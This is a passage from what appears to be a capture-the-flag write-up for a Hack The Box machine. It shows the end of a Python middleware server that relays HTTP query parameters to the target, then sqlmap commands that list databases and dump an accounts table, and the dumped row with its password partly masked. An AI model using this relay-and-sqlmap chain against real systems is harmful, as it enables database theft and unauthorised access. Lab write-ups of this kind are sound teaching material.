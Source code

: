 ```python
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass

```

Run file python

```sh
python3 ./websoc.py
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
127.0.0.1 - - [25/Apr/2023 04:25:21] "GET /?id= HTTP/1.1" 200 -

```
Exploit SQL injection

```sh
sqlmap -u "http://localhost:8081/?id=1" --dbs
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump 

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | Play***************2 | player   |
+------+-------------------+----------------------+----------+

```

Login with Player and cat file user.txt

